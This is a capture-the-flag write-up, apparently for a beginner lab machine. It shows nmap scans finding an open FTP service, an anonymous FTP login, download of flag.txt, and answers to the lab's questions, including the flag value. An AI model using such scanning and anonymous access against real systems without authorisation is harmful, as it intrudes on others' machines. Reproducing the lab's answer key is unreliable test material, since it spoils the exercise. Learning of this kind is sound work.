 ## Walkthrough

- performed nmap scan on target ip

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.103.221
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 13:51 IST
Nmap scan report for 10.129.103.221
Host is up (0.73s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 55.32 seconds
```

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.103.221 -sC -sV -p 21
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 13:49 IST
Nmap scan report for 10.129.103.221
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.25
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds
```

- connected to ftp port using

```
┌─[birb@coffee]─[~]
└──╼ $ftp 10.129.103.221
Connected to 10.129.103.221.
220 (vsFTPd 3.0.3)
Name (10.129.103.221:birb): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

-  found `flag.txt`

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

- transfered `flag.txt` to local machine using `get`

```
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (208.3333 kB/s)
```

- exited ftp session

```
ftp> quit
221 Goodbye.
```

- got the flag 

```
┌─[birb@coffee]─[~]
└──╼ $cat flag.txt 
035db21c881520061c53e0536e44f815
```

## Tasks

**What does the 3-letter acronym FTP stand for?**

=>  File Transfer Protocol 

**Which port does the FTP service listen on usually?**

=> 21

**What acronym is used for the secure version of FTP?**

=> SFTP

**What is the command we can use to send an ICMP echo request to test our connection to the target?**

=> ping

**From your scans, what version is FTP running on the target?**

=> vsftpd 3.0.3

**From your scans, what OS type is running on the target?**

=> Unix

**What is the command we need to run in order to display the 'ftp' client help menu?**

=> ftp -h

**What is username that is used over FTP when you want to log in without having an account?**

=> anonymous

**What is the response code we get for the FTP message 'Login successful'?**

=> 230

**There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.**

=> ls

**What is the command used to download the file we found on the FTP server?**

=> get

**Submit root flag**

=> 035db21c881520061c53e0536e44f815
